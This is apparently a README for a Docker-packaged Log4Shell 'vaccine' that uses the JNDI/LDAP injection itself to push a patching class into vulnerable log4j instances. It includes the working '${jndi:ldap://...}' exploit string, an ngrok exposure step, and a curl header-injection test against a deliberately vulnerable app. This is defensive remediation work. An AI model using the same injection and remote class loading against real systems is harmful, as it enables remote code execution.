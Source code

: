 ## Log4j Docker Vaccine

A containerized way to run the log4j vaccine offered by Cyberreason

- https://github.com/Cybereason/Logout4Shell

### Make it go
Clone this repo:

```bash
git clone https://github.com/jeffbryner/log4j-docker-vaccine.git
```

Build and run the containers:

```bash
docker-compose -f docker-compose.yml -p vaccine up
```

You now have a listening ldap server that will serve up the Log4jRCE class to innoculate a vulnerable log4j instance.

You can expose this to the internet (if you like) by using ngrok.
 - https://dashboard.ngrok.com/get-started/setup

 ```bash
 ngrok tcp 1389
 ```

 You can send a vulnerable log4j instance to this using the infamous jndi input string:
 ```
 ${jndi:ldap://<ngrokurlgoeshere>:1389/a}
 ```

## Testing
There is a purposefully vulnerable version of log4j in a container available at:
- https://github.com/christophetd/log4shell-vulnerable-app

You can follow their instructions to start it and use it for testing:

```
docker build . -t vulnerable-app
docker run -p 8080:8080 --name vulnerable-app vulnerable-app
```

And trigger the innoculation via:
```
curl 127.0.0.1:8080 -H 'X-Api-Version: ${jndi:ldap://your-ip-address-or-dns-name:1389/a'
```
